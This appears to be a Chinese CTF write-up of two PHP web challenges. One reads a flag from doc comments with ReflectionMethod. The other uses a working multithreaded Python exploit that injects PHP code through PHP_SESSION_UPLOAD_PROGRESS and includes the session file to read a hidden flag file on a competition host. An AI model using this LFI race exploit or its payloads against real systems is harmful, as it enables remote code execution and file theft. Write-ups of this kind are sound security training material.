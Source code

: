 ### easy_source

源码文件地址`.index.php.swo`

源码比较长，就不放了，看到代码马上想到了之前DASCTF原生类读取，但`SplFileObject`只能按行读取，要想读全部的话得用`foreach`遍历，不太行。

后来发现是原题...实在没想到，flag藏在注释里，直接用`ReflectionMethod`原生类去一个一个读函数注解即可。

**后续补充**：在看博客的时候，发现羽师傅用的就是`splFileObject`的方法，手册里面写有：

![image-20210518202515518](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-18-image-20210518202515518.png)

再调用`fpassthru`就可以输出全部文件内容，送自己一句：**Read The Fucking Manual**！

### middle_source

目录扫描，得到`.listing`，里面有 `phpinfo()`位置，然后通过SESSION LFI GetShell即可。

![image-20210515212934339](https://gitee.com/lcdm123/image/raw/master/2021-05-15-image-20210515212934339.png)

`disable_function`禁用了很多函数，用蓝帽杯那题的思路就行(多做题还是好XD)

```python
import io
import requests
import threading
sessid = 'Theoyu'
data = {"cf":'../../../../var/lib/php/sessions/gcbejhehdh/sess_'+sessid}

def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        # resp = session.post( 'http://124.70.28.149:20877/', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php $a = new DirectoryIterator("glob:///etc/aebgjbecbg/abhiabddfd/hafjgahhef/debibfeahf/bibciiadie/fl444444g/*");foreach($a as $f){echo($f->__toString()."\n");}?>'}, files={'file': ('test.txt',f)}, cookies={'PHPSESSID': sessid} )
        resp = session.post( 'http://124.70.28.149:20877/', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php  var_dump(file_get_contents("/etc/aebgjbecbg/abhiabddfd/hafjgahhef/debibfeahf/bibciiadie/fl444444g")); ?>'}, files={'file': ('test.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):  
    resp = session.post('http://124.70.28.149:20877/',data=data)
    #print(resp.text)
    if 'test.txt' in resp.text:
        print(resp.text)
        event.clear()
    else:
        print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30): 
            threading.Thread(target=write,args=(session,)).start()
        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

